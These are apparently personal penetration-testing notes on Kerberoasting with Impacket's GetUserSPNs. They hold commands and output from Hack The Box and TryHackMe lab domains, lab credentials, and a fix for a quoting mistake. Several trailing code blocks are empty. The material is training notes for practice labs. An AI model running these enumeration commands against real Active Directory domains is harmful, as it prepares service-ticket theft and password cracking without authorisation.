 - [Common Mistakes](#common-mistakes)
	- ['@"$t"](#t)

# Kerberoasting with GetUserSPNs

### [Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

> ... to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```sh
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight' -usersfile users.txt
```
### Without creds; HTB Blackfield
```sh
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```sh
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```
# [Common Mistakes](#common-mistakes-1)
## ['@"$t"](#t-1)
```sh
$ GetUserSPNs.py 'LAB.ENTERPRISE.THM/nik:ToastyBoi!'@"$t"
Impacket v0.12.0.dev1+20230823.84619.912e896 - Copyright 2023 Fortra

[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C0906B5, comment: AcceptSecurityContext error, data 52e, v4563
```

## 
```sh
$ GetUserSPNs.py 'LAB.ENTERPRISE.THM/nik:ToastyBoi!'     
Impacket v0.12.0.dev1+20230823.84619.912e896 - Copyright 2023 Fortra

ServicePrincipalName  Name       MemberOf                                                     PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  -----------------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM  2021-03-12 09:20:01.333272  2021-04-26 23:16:41.570158
```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
Examples 